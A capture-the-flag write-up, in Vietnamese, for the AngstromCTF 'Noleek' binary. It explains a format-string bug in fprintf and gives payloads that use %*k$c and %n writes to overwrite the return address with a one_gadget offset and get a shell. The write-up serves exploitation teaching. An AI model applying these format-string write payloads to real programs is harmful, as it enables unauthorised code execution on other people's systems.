






# Angstromctf - Noleek

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
noleek_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=07cfd746eba1468d59b47bae05e6420b85696e4b, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Tiếp đến đưa file vào ida-64bit



# 2. Phân tích 

Ở bài này cho ta nhập 2 lần và ta có nhận ra lỗi format strings tại `fprintf(stream, s);`

Do ở đây ghi chuỗi fmt vào file `/dev/null` nên ta không phải lo về số lượng ký tự in ra.

Bài này không có hàm win và có giới hạn fmt nên ta sẽ sử dụng `one_gadget`

# 3. Khai thác

`%*<k>$c` : ghi số lượng ký tự bằng với giá trị tại vị trí thứ k nó trỏ vào
`%<k>$n`  : ghi đè 4 bytes tại vị trí và giá trị của vị trí thứ k trỏ vào 
`%<k>c`   : ghi k ký tự ra màn hình console
Mình sẽ đi dbg để kiếm địa chỉ các thanh ghi



Ở đây là con trỏ `stream` chứa địa chỉ của chuỗi sau khi đã bị format strings



Ok vậy là từ đó mình có thể dễ dàng tìm và thấy các địa chỉ trên stack và dùng format strings để sửa thanh ghi có quyển `write`



Nhận thấy rằng ở thanh ghi số 16 có chứa địa chỉ ở phần sau khi sử dụng fmt

( %46$p ), khi ấy mình sẽ sửa giá trị tại `0x7ffe9fa71ee8` thành giá trị của `ret_addr`.

Nhìn qua mình thấy địa chỉ %1 có giá trị `0x7ffe9fa71da0` nhỏ hơn giá trị của `ret_addr` là `56` nên mình sẽ ghi 56 ký tự và sử dụng `%*<k>c` để ghi

```
payload = b"%56c%*1$c%16$n"
p.sendlineafter(b'leek? ', payload)
```


Ok vậy là đã xuất hiện địa chỉ của `ret_addr` trên stack (cụ thể là vị trí thứ 46)



Xuất hiện 1 địa chỉ `__libc_start_main+128` nhỏ hơn các giá trị `one_gadget` mình đã chuẩn bị sẵn nên mình sẽ in ra số ký tự = giá trị tại địa chỉ

này và thêm `%<x>c` để có thể có đủ ký tự của `one_gadget` và ta ghi vào địa chỉ thử 46 (địa chỉ chứa `ret_addr`) 

```
og0 = 158711 # 0x50a37
og1 = 794289 # 0xebcf1
og2 = 794293 # 0xebcf5
og3 = 794296 # 0xebcf8
payload = b'%' + str(og3).encode() + b'c%*32$c%46$n'
p.sendlineafter(b'more leek? ', payload)
```



Vậy là ta đã `ret2one_gadget` rồi. Ở đây mình chỉ cần `one_gadget` phù hợp là có thể lấy shell!!!